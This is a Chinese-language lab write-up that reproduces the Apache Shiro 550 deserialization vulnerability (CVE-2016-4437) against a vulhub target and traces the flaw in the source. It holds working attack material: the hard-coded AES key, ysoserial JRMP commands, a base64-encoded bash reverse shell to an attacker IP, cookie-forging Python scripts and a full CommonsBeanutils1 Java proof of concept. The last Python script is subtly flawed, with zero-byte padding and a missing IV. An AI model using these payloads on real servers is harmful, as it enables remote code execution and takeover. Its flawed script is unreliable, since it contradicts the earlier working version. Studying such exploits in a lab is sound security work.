# Shiro550(CVE-2016-4437)

> Apache Shiro 1.2.4 及以下版本存在反序列化漏洞，攻击者可利用硬编码密钥构造恶意序列化数据执行任意命令。
## 漏洞原理
### 本质 
Shiro 的 "记住我"（RememberMe）功能在服务端处理 Cookie 时，会依次执行：Base64解码 → AES解密 → 反序列化。由于 AES 加密密钥被硬编码在框架源码中，攻击者可利用已知密钥构造恶意 Cookie，触发反序列化漏洞，最终实现远程代码执行（RCE）
### 核心问题：
1. 硬编码密钥：默认密钥 kPH+bIxk5D2deZiIxcaaaA== 写死在代码中
2. 危险反序列化“ObjectInputStream.readObject() 无任何过滤或白名单校验
## 环境搭建
1. 使用docker环境，由于我的虚拟机网络总是出问题，所以我先在物理机上下载好了镜像文件
   
   然后让虚拟机从物理机上获取镜像可以绕过虚拟机网络不好的问题
   
2. 加载镜像并启动环境
   
3. 在物理机浏览器中访问，可以正常访问说明环境搭建成功
   
4. vulhub搭建的环境登录账号密码是admin:vulhub
    
## 漏洞复现
### 工具复现
### 全自动工具
目标：用ShiroExploit快速验证漏洞存在并使用工具拿到反弹shell
注意：推荐使用java8环境，图形化界面需要 JavaFX 图形界面支持，OpenJDK 17 或更高版本不再内置 JavaFX 库，所以完整运行该工具的需要 Java 8 环境 或手动补充 JavaFX 依赖，攻击机也需要使用java8运行ysoserial
验证漏洞：
1. 发现秘钥
   
2. 但是没能找到可以用的Gadget
3. 按理说Shiro 1.2.4 自带 commons-beanutils:1.8.3，所以 CB 链理论上可用，可能是版本兼容性问题，上网查找可以使用的其他攻击发现shiro_tool.jar这款攻击可以用
4. 使用shiro_tool.jar进行探测，成功发现多条Gadget链
   
5. 按照提示选一条Gatget执行命令`touch /tmp/success`
6. 在靶机环境中检查发现成功RCE
7. 尝试了好的方法都不行，然后发现shiro-attack工具可以回显，直接用该工具
8. 后来在后面发现时发现使用shiro_tool.jar不能实现反弹shell是因为选错了利用链，应该选JRMPClient
9. 然后在攻击机9000端口启动一个RMI服务，任何连接到这个服务的机器都会执行后面的反弹shell语句。`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9000 CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMjkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"`
10. 然后在工具在输入攻击机的ip和监听的端口
11. 就能拿到反弹shell
### 半自动工具ysoserial-all
1. 编写完整的python调用ysoserial+加密编码脚本
   ```python
   import sys
   import uuid
   import base64
   import subprocess
   from Crypto.Cipher import AES
   
   def encode_rememberme(command):
      popen = subprocess.Popen(['java', '-jar', 'ysoserial-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
      BS = AES.block_size
      pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
      key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
      iv = uuid.uuid4().bytes
      encryptor = AES.new(key, AES.MODE_CBC, iv)
      file_body = pad(popen.stdout.read())
      base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
      return base64_ciphertext
   
   if __name__ == '__main__':
      payload = encode_rememberme(sys.argv[1])   
      print("rememberMe={0}".format(payload.decode()))
   ``` 
2. 继续在攻击机上用 ysoserial 开启JRMPListener监听9000端口，然后通过burp抓包修改rememberme的值发送恶意rememberMe Cookie同样可以获得一个shell
3. 进一步减少自动化程度，手工调用ysoserial生成序列化数据`java -jar ysoserial-all.jar JRMPClient "192.168.137.129:9000" >payload.ser`，然后编写python脚本实现加密，编码
   ```pyhton
   import base64
   from Crypto.Cipher import AES
   import uuid

   BS = AES.block_size
   KEY = "kPH+bIxk5D2deZiIxcaaaA=="
   FILEPATH = "payload.ser"

   with open(FILEPATH, 'rb') as f:
      data = f.read()

   def manual_pad(data):
      pad_len = BS - (len(data) % BS)
      if pad_len == 0:
         pad_len = BS
      pad = bytes([pad_len]) * pad_len
      return data + pad

   iv = uuid.uuid4().bytes
   b64key = base64.b64decode(KEY)
   cipher = AES.new(b64key, AES.MODE_CBC, iv)

   paddata = manual_pad(data)
   encrypted = cipher.encrypt(paddata)

   result = iv + encrypted
   b64_result = base64.b64encode(result).decode()

   print(f"rememberMe={b64_result}")
   ``` 
   依旧可以获得反弹shell，不过经过我多次测试发现每次都需要重新生成payload.ser然后重新加密编码得到的payload才好用
### 深入分析
1. 数据处理流程
   正常流程（服务端处理 rememberMe Cookie）
   ```
   Cookie值 → Base64解码 → AES解密 → 反序列化 → 获取用户信息
   ```
   攻击流程
   ```
   恶意命令 → 序列化 → AES加密 → Base64编码 → 构造rememberMe Cookie → 发送
   ```
2. 源码追踪
   1. 环境搭建：网上下载shiro1.2.4源码放到idea中，找到 samples/web 模块（这是一个示例 Web 应用），然后添加 Servlet API 依赖【因为源码中的依赖还是旧版本可能影响调试，所有直接改成新版本】， 配置 Tomcat,打包 Shiro Web 应用,部署到Tomcat，但是遇到jsp编译和依赖问题，换成jetty插件运行
   2. 搭建好环境后访问查看，可以正常访问
   3. 在 VSCode 中打开源码并下断点
   4. 然后输入用户名密码点击rememberme，触发调试
   5. 看到运行jerry的终端输出信息
      1. 获取cookie，base64解码，AES解密
      2. 将解密后的序列化数据进行反序列化然后创建一个session会话
   6. 使用python脚本调用ysoserial生成一个执行简单RCE的序列化加密数据发送给服务端观察堆栈调用情况
   7. 在vscode中观察堆栈调用信息
   8. 可以看到是经典的CB1链
      ```java
      CookieRememberMeManager.getRememberedSerializedIdentity()  ← 获取并解码 Cookie
            ↓
      AbstractRememberMeManager.decrypt()                        ← AES 解密
            ↓
      AbstractRememberMeManager.deserialize()                    ← 调用反序列化
            ↓
      DefaultSerializer.deserialize()                            ← 进入 readObject()
            ↓
      ObjectInputStream.readObject()                             ← 触发 Gadget 链
            ↓
      PriorityQueue.readObject()                                 ← CB 链开始
            ↓
      BeanComparator 类加载 ← 发现 serialVersionUID 不匹配 → 抛出异常
      ``` 
### 手工复现
1. 关键点：
   1. 最好手动反射设置TemplatesImpl对象的_class字段为null，虽然我在学校CB1链时手工编写poc没有手动设置_class字段为null也可以成功对象是新创建的：利用链的代码通常会通过 new TemplatesImpl() 来创建一个全新的对象。在这个新对象中，_class 属性的初始值本来就是 null；但在某些更复杂的利用链中，情况就不一样了。比如 Jdk7u21 链。TemplatesImpl 对象可能被复用：在这种利用方式中，恶意 TemplatesImpl 对象可能不是新创建的，而是从一个已有的、序列化过的数据流中反序列化得到的。_class 已有旧值：如果之前 _class 字段已经有值（比如上一次反序列化时加载的旧字节码），那么它就不是 null。在反序列化时，这个旧值会被还原。这时，if (_class == null) 的条件就不成立了，defineTransletClasses() 就不会再执行，新 _bytecodes 也就永远不会被加载，利用链就会失败。因此为了保险起见，直接手动设置
   2. 构造BeanComparator时先设置Property为null然后反射修改为outputProperties，构造PriorityQueue时先add(1)，然后反射修改队列中的对象为TemplatesImpl对象
2. 完整POC
   ```java
   package com.example;

   import java.io.FileOutputStream;
   import java.io.ObjectOutputStream;
   import java.lang.reflect.Field;
   import java.util.PriorityQueue;
   import java.util.Queue;
   import org.apache.commons.beanutils.BeanComparator;
   import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
   import javassist.*;
   import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

   public class Shiro550 {
      public static void main(String[] args) throws Exception{
         ClassPool pool =ClassPool.getDefault();
         pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
         CtClass cc=pool.makeClass("Evil");
         String cmd="java.lang.Runtime.getRuntime().exec(\"touch /tmp/mannul\");";
         cc.makeClassInitializer().insertBefore(cmd);
         cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
         String rename="Evil"+System.nanoTime();
         cc.setName((rename));  
         byte[] bytes=cc.toBytecode();
         byte[][] target=new byte[][]{bytes};

         TemplatesImpl templates=new TemplatesImpl();
         Field name=templates.getClass().getDeclaredField("_name");
         name.setAccessible(true);
         name.set(templates, "test");

         Field byteCodes=templates.getClass().getDeclaredField("_bytecodes");
         byteCodes.setAccessible(true);
         byteCodes.set(templates, target);

         Field classField=templates.getClass().getDeclaredField("_class");
         classField.setAccessible(true);
         classField.set(templates, null);

         Field tfactory=templates.getClass().getDeclaredField("_tfactory");
         tfactory.setAccessible(true);
         tfactory.set(templates, new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());

         BeanComparator comparator=new BeanComparator(null);

         PriorityQueue pq=new PriorityQueue<>(2,comparator);
         pq.add(1);
         pq.add(1);

         Field qField=pq.getClass().getDeclaredField("queue");
         qField.setAccessible(true);
         Object[] q=(Object[])qField.get(pq);
         q[0]=templates;
         q[1]=templates;

         Field proField=comparator.getClass().getDeclaredField("property");
         proField.setAccessible(true);
         proField.set(comparator, "outputProperties");   

         FileOutputStream fos=new FileOutputStream("payload.ser");
         ObjectOutputStream oos=new ObjectOutputStream(fos);
         oos.writeObject(pq);
         oos.close();

      }
   }
   ``` 
3. 编写python脚本将payload.ser中的内容进行base64编码然后AES加密
   ```python
   import base64
   from Crypto.Cipher import AES
   import uuid
   BS=AES.block_size
   KEY="kPH+bIxk5D2deZiIxcaaaA=="
   FILEPATH="./shiro550demo/payload.ser"
   with open(FILEPATH,'rb') as f:
      data= f.read()

   def manual_pad(data):
      pad=(BS-len(data)%BS)*bytes((BS-len(data)%BS))
      payload=data+pad
      return payload
   iv=uuid.uuid4().bytes
   b64key=base64.b64decode(KEY)
   cipher=AES.new(b64key,AES.MODE_CBC,iv)

   paddata=manual_pad(data)
   encrypted=cipher.encrypt(paddata)
   b64encrypted=base64.b64encode(encrypted)
   print(b64encrypted)
   ``` 
